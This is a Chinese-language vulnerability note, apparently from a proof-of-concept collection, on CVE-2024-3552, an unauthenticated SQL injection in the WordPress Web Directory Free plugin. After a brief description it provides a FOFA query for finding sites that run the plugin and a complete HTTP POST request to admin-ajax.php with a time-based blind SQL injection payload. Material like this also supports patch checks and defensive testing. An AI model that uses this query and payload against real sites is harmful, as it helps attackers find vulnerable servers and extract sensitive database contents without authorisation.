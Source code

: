## WordPress-WebDirectory插件存在sql注入(CVE-2024-3552)

WordPress 的 Web Directory 免费插件在 1.6.9 及之前的所有版本中都容易受到 SQL 注入攻击，因为对用户提供的参数转义不充分，并且对现有 SQL 查询缺乏充分的准备。这使得未经身份验证的攻击者可以将额外的 SQL 查询附加到现有的查询中，这些查询可用于从数据库中提取敏感信息。

## fofa

```
body="/wp-content/plugins/web-directory-free"
```

## poc

```c
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: <Host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 95

action=w2dc_get_map_marker_info&locations_ids[]=(select+if(1=1,sleep(5),0)+from+(select+1)x)
```

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405280854244.png)